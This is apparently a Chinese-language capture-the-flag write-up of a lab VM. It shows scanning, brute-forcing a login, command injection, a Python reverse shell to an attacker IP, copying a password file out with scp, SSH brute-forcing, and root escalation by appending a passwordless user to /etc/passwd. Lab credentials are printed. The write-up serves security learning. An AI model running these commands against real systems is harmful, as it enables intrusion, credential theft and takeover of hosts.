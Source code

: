 # 信息收集
## 主机发现
>nmap -sn 192.168.72.0/24

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412142236334.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
## 端口扫描
>nmap -sV -T4 -O -sT -Pn -p- 192.168.72.156 --script vuln

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412143053380.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
访问80端口，是一个登陆界面，页面如下
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412143514805.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)

## 目录扫描
>dirbuster

没有发现其他有价值的目录
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412164127325.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)

# 漏洞利用
通过对登陆页面的测试，发现该页面缺少防暴力破解的验证机制
通过页面上的提示，尝试对admin用户进行暴力破解
利用PB的intrude进行暴力破解，添加password为变量
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412164346885.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
得到可以用的密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412164459551.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
登陆后的页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412164557977.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
看上去是一个命令执行的功能页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412164841783.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
使用BP截获数据包，发现可以通过改包控制想要执行的命令
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412164908310.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
给查看当前目录文件的命令后使用`;` 拼接一个查看系统版本的命令进行测试
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412165348736.png)
命令执行成功！！！
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412165531295.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
可以验证确实存在命令执行漏洞，下来就是希望通过该漏洞获得webshelll
查看系统中存在的可利用工具
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412172406961.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
开启端口监听，用于接收webshell
>nc -vlnp 5678

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412172603629.png)
开始尝试使用nc反弹shell，但都失败，后面利用python成功获得shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.72.141",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412172758720.png)
# 提权过程
进入家目录下发现存在三个用户目录，并在jim用户的目录下发现密码文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412184626817.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
下来就是需要将靶机中的密码文件传到kali中，这里用SCP来传输
首先在kali上开启ssh服务
>/etc/init.d/shh start

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412185255781.png)
在靶机中执行命令将密码文件传到kali中
>scp ./old-passwords.bak root@192.168.72.146:/root/

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412185516910.png)
在kali中接收到密码文件后，就可以尝试用jim用户对ssh进行暴破
>medusa -M ssh -h 192.168.72.156 -u jim -P old-passwords.bak -t 10
>-t		代表线程数，为提高准确度，避免设置太高

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412190847861.png)
```
jim  jibril04
```
使用ssh登陆
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412191839240.png)
查看用户目录下的文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412192611686.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
过了一会收到了一封新邮件提示
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412193316144.png)
查看邮件得到charles的密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412193814321.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
```
charles   ^xHhA&hvim0y
```
切换用户成功，并发现`teehee`存在不安全的配置，可以免密码执行root权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412194130353.png)
查看teehee使用方法，发现它可以执行在文件中追加写入操作
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412200102839.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
提权思路是可以利用teehee的root权限在passwd中写入一个免密root权限用户
```
echo "www-date::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412200515185.png)

flag合影
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412200921572.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)

***
# passwd文件解读
```
root:x:0:0::/home/admin:/bin/bash
[用户名]：[密码]：[UID]：[GID]：[身份描述]：[主目录]：[登录shell]
```